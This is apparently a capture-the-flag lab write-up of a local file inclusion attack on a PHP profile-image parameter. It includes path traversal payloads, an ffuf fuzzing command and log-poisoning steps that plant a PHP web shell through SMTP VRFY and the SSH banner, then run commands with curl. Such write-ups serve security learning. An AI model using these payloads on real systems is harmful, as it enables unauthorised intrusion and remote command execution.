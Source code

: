 # LFI + path traversal

From inspection of the network requests, I found a request that loads the profile image using a query parameter to specify the path to the file:

```http
GET /profile.php?img=profile.png HTTP/1.1
Host: xxx.xxx.xxx.xxx:50000
User-Agent: xxx
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: connect.sid=xxxx
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

As found previously, the `profile.png` is present in the `/uploads` directory. Thus, it appears that the `img` query input will be used to search for a file in that directory.&#x20;

Possible path: `/var/www/html/uploads/profile.png`.

### Simple payloads

With knowledge of the current directory, I started off with simple payloads:

1. Path traversal
   * `../../../../etc/passwd`
   * `%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd`  (URL encoded)
   * `..//..//..//..//etc/passwd`
   * `%2E%2E%2F%2F%2E%2E%2F%2F%2E%2E%2F%2F%2E%2E%2F%2Fetc%2Fpasswd` (URL encoded)
2. Remote public resource
   * [https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcTAx6camOf\_G96Zcs2Zj34Yjmy0ysPd-p0oJQ\&s](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcTAx6camOf_G96Zcs2Zj34Yjmy0ysPd-p0oJQ\&s)



### Brute force discovery

I performed a brute force attack using `ffuf`, with the [wordlist](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Intruders/JHADDIX_LFI.txt):

* Cookie: `-H "Cookie: PHPSESSID=xxxx"`&#x20;
* Filter out empty responses: `--fs 0`

{% code overflow="wrap" %}
```sh
$ ffuf -w /<wordlist> -u http://<target>:50000/profile.php?img=FUZZ -H "Cookie: PHPSESSID=xxxx" --fs 0
```
{% endcode %}

The payload: `....//....//....//....//....//....//....//....//....//etc/passwd` was found to work:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This provides us the following information:

1. Usernames:
   * `joshua`, `charles`
2. More importantly, the server is vulnerable to a Local File Inclusion (LFI) vulnerability!

### Exploring methods of exploitation

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/LFI-to-RCE.md" %}

Following the guide in the link above, I explored a few methods to gain RCE on the system. From the previous enumeration steps, we have found multiple open ports/services, where some of them provides use a means to escalate the LFI to RCE.

#### Log poisoning

I tried accessing the following log files (appended to found payload above):

```
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/sshd.log
/var/log/mail
/var/log/httpd/error_log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
```

#### 1. SMTP (port 25)  \~ `/var/log/syslog`

From enumeration of the _**SMTP**_ commands, I found a few that will directly log user inputs into the log file:

```sh
1. RCPT TO:<input> # requires MAIL TO:<addr> before
2. VRFY <input>
```

With this in mind, we can exploit this to achieve RCE. Let's use the _**VRFY**_ command:

```sh
VRFY <?php system($_GET['cmd']); ?>
```

Now, reading the `/var/log/syslog` via the LFI vulnerability, we are able to view the output of our command that will be executed on the vulnerable machine. With that, we have a gained a web shell. The output can be viewed with the command:

{% code overflow="wrap" %}
```sh
$ curl 'http://xxx.xxx.xxx.xxx:50000/profile.php?img=....//....//....//....//....//....//....//....//....//var/log/syslog&cmd=<command>' -H "Cookie: PHPSESSID=xxxx" --silent | tail -n 20

```
{% endcode %}

The following command allows us to read the last 20 lines of the log file. Remember to replace `<command>` with the actual command, and set the **PHPSESSID**.

We can now replace the command to look around the directory and view the contents of the text file to retrieve our final flag!

#### 2. SSH (port 22) \~ `/var/log/auth.log`&#x20;

**Username**

I attempted to send a payload via the username field to SSH:

```sh
$ ssh '<?php system('id'); ?>'@<host>
```

However, the SSH client does not allow special characters in the username.

**Identification string**

I explored another method to poison the logs via the identification string:

```sh
$ nc <host> 22
SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.11
<?php system($_GET['cmd']); ?> # click enter right after
```

This method works.

#### Interesting discovery

With the `img` payload value of `#` (`/profile.php?img=#`), we are presented with a status **400** response:

<figure><img src="../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Even though this does not allow for any direct exploits, it tells us the hostname: `mail.filepath.lab.`
